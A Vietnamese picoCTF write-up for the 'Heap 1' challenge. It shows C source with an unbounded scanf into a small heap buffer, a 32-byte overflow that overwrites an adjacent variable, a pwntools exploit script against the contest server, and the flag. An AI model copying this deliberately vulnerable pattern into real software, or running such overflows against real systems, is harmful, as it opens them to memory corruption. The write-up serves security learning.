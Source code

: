 # Heap 1
Challenge này cho chúng ta 2 file, một file binary `chall` và một file .c `chall.c`.

Mở file `chall.c` thì ta có source code của challenge này như sau:

``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64
// amount of memory allocated for input_data
#define INPUT_DATA_SIZE 5
// amount of memory allocated for safe_var
#define SAFE_VAR_SIZE 5

int num_allocs;
char *safe_var;
char *input_data;

void check_win() {
    if (!strcmp(safe_var, "pico")) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}

void print_menu() {
    printf("\n1. Print Heap:\t\t(print the current state of the heap)"
           "\n2. Write to buffer:\t(write to your own personal block of data "
           "on the heap)"
           "\n3. Print safe_var:\t(I'll even let you look at my variable on "
           "the heap, "
           "I'm confident it can't be modified)"
           "\n4. Print Flag:\t\t(Try to print the flag, good luck)"
           "\n5. Exit\n\nEnter your choice: ");
    fflush(stdout);
}

void init() {
    printf("\nWelcome to heap1!\n");
    printf(
        "I put my data on the heap so it should be safe from any tampering.\n");
    printf("Since my data isn't on the stack I'll even let you write whatever "
           "info you want to the heap, I already took care of using malloc for "
           "you.\n\n");
    fflush(stdout);
    input_data = malloc(INPUT_DATA_SIZE);
    strncpy(input_data, "pico", INPUT_DATA_SIZE);
    safe_var = malloc(SAFE_VAR_SIZE);
    strncpy(safe_var, "bico", SAFE_VAR_SIZE);
}

void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}

void print_heap() {
    printf("Heap State:\n");
    printf("+-------------+----------------+\n");
    printf("[*] Address   ->   Heap Data   \n");
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", safe_var, safe_var);
    printf("+-------------+----------------+\n");
    fflush(stdout);
}

int main(void) {

    // Setup
    init();
    print_heap();

    int choice;

    while (1) {
        print_menu();
	if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print safe_var
            printf("\n\nTake a look at my variable: safe_var = %s\n\n",
                   safe_var);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```

Ta thấy chương trình sẽ chạy như sau:
- Khởi tạo heap bằng cách gọi hàm `init()`
- In ra nội dung của heap bằng cách gọi hàm `print_heap()`
- Khởi tạo menu bằng cách gọi hàm `print_menu()`
- Dựa vào input mà người dùng nhập vào, thực hiện các thao tác khác nhau với heap.

Ta thấy nếu nhập số `4` thì hàm `check_win()` sẽ được gọi. Nhìn vào hàm `check_win()`, ta thấy:

``` c
void check_win() {
    if (!strcmp(safe_var, "pico")) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}
```

Ta thấy hàm sẽ in flag nếu `safe_var` bằng với chuỗi `pico`. Ta có `safe_var` được khởi tạo ban đầu là `bico`. Ta sẽ cố gắng làm cho `save_var` bằng với chuỗi `pico`.

Nhìn vào hàm `write_buffer()` ta thấy rằng việc nhập vào không giới hạn kí tự (ở lựa chọn số 2).

``` c
void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}
```

Khởi chạy local:

![image](https://github.com/user-attachments/assets/a8cd71d5-ad42-422d-a695-003517818a88)

Ở địa chỉ `0x64174383d6b0` đang lưu trữ chuỗi pico (input được nhập vào sẽ lưu trữ từ đây). Và địa chỉ `safe_var` là `0x64174383d6d0` đang lưu trữ chuỗi bico. Ta thấy offset là 32 bytes, ta sẽ thử nhập 32 kí tự `a` và nhập chuỗi pico ở cuối.

![image](https://github.com/user-attachments/assets/ce1ff2f7-278b-4f44-9661-804d938de6b1)

Ta thấy rằng vùng nhớ trên heap mà `safe_var` trỏ đến đã bị ghi đè thành chuỗi `pico`.

Thực hiện print flag (số 4)

![image](https://github.com/user-attachments/assets/394f4402-341b-404f-95ca-ac8a792be744)

Tôi `WIN` =))))))). Và tôi có file exploit như sau:

``` python 
from pwn import *

p = remote('tethys.picoctf.net', 57638)
write = b'2'
flag = b'4'
payload = 32 * 'a'
payload += "pico"
p.sendline(write)
p.sendline(payload)
p.sendline(flag)
p.interactive()
```

Và ta có flag:

``` 
picoCTF{starting_to_get_the_hang_21306688}
```

